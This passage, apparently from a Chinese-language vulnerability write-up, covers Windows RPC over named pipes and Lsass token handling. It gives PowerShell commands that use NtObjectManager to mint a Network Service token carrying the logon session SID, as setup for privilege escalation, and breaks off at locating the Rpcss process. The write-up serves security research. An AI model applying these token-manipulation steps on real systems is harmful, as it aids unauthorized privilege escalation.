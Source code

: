 ### 漏洞利用

RPC 被用于在分布式系统中进行进程间通信。Named Pipes（命名管道）是一种允许拥有相同网络路径的进程进行本地和远程通信的通信机制。

通过 ncacn\_np，RPC 可以利用 Named Pipes 进行通信。

在 Windows 操作系统中，ncacn\_np 常用于本地进程之间的通信，特别是在同一台计算机上的进程间通信。

通过使用 Named Pipes，进程可以通过指定的路径（如 \\servername\\pipe\\pipename）进行通信

在先前的讨论中，我们提到了一个前提条件，即 AcquireCredentialsHandle 的 pvLogonID。

而 RegConnectRegistryW 无法使用的原因是因为 RPCRT4.dll 使用了自己的实现进行身份验证，它将 pvLogonID 设置为 0。

然而，我们需要将其设置为与用户相关联的登录会话 ID，否则将无法触发 Lsass 的令牌问题。

配置`Network Service`的 PowerShell 环境。

```plain
Save-Module -Name NtObjectManager -Path C:\
Import-Module C:\NtObjectManager
```

开启一个具有 System 权限的 PowerShell

```plain
$p = Start-Win32ChildProcess PowerShell
```

随后，我们可以开始导入之前下载的包，并获取当前的会话令牌。接着，创建一个新的 Network Service 令牌并添加 SID 到组。最终，利用新的令牌启动一个 Network Service 的 PowerShell。

```plain
Import-Module C:\NtObjectManager
$sess = Get-NtToken -Session
$token = Get-NtToken -Service NetworkService -AdditionalGroups $sess.LogonSid.Sid
New-Win32Process PowerShell -Token $token -CreationFlags NewConsole
```

通过任务管理器查看 Rpcss 服务 Pid
